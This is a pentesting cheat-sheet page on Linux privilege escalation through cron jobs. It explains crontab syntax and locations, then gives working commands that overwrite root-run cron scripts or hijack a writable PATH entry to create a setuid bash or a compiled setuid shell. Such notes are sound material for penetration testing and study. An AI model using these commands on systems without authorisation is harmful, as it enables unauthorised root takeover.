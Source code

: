 # PrivEsc via Cron Jobs

## Theory

A cron job is a task that users can schedule to run at regular time intervals.

Cron table files (crontabs) store the configuration for cron jobs. Cron jobs in UNIX systems is a time-scheduler for programs or scripts to run at specific intervals. This are run with the security level of the user who owns them.

The /bin/sh shell is the default shell used by cron jobs, but it can be modified.

### Cron Job Structure

The structure of a cron job consists of 5 fields to indicate the time interval, followed by the user who is going to execute it and finally, the command:

```
# *  *  *  *  * <username> <command to execute>
# T  T  T  T  T
# |  |  |  |  |
# |  |  |  |  |
# |  |  |  |  .----- day of week (0 - 6) (Sunday=0 or 7)
# |  |  |  .-------- month (1 - 12)
# |  |  .----------- day of month (1 - 31)​
# |  .-------------- hour (0 - 23)​
# .----------------- minute (0 - 59)​
```

### Crontabs location <a href="#crontabs" id="crontabs"></a>

Cron table files (crontabs) store the configuration for cron jobs.

```bash
# Crontabs directories:
/var/spool/cron/
/var/spool/cron/crontabs
# Crontab file:
/etc/crontab
# List user's crontab:
crontab -l
# Allow/Deny:
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
```

As mentioned above, crontab files are generally located in `/etc/cron.d`. The crontab files that depend on the time:

```
/etc/cron.daily/
/etc/cron.hourly/
/etc/cron.monthly/
/etc/cron.weekly/
```

#### Others locations

```bash
for i in $(ls /etc/cron.d); do echo "/etc/cron.d/$i"; done | xargs cat
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cd /etc/cron.d
cat /etc/anacrontab
cat /var/spool/cron.d
cd /var/spool/cron
ls -la /var/log/cron*
```

## Privilege Escalation

### Cron script overwriting and symlink

If you **can modify a cron script** executed by root, you can get a shell very easily:

```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > </PATH/CRON/SCRIPT>
# Wait until it is executed
/tmp/bash -p
```

If the script executed by root uses a **directory where you have full access**, maybe it could be useful to delete that folder and **create a symlink folder to another one** serving a script controlled by you:

{% hint style="danger" %}
If we have a directory with full access, it is not necessary to make a symbolic link, we simply create the payload in the /tmp directory and copy the payload in that directory with the same name to overwrite it.
{% endhint %}

```bash
ln -d -s </PATH/TO/POINT> </PATH/CREATE/FOLDER>
```

### PATH Environment Variable <a href="#path-environment-variable" id="path-environment-variable"></a>

For example, inside _/etc/crontab_ you can find the PATH:&#x20;

```
PATH=/home/leviswings:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```

> Note how the user "leviswings" has writing privileges over /home/leviswings

If inside this crontab the root user tries to execute some command or script without setting the path. For example:&#x20;

```bash
* * * * * root overwrite.sh
```

Then, you can get a root shell by using:

```bash
# Method 1:
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
## Wait cron job to be executed
/tmp/bash -p # The effective uid and gid to be set to the real uid and gid

# Method 2:
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); }' > /tmp/bash.c
gcc /tmp/bash.c -o /tmp/bash
chmod +s /tmp/bash
echo 'chown root:root /tmp/bash' > /home/user/overwrite.sh
```
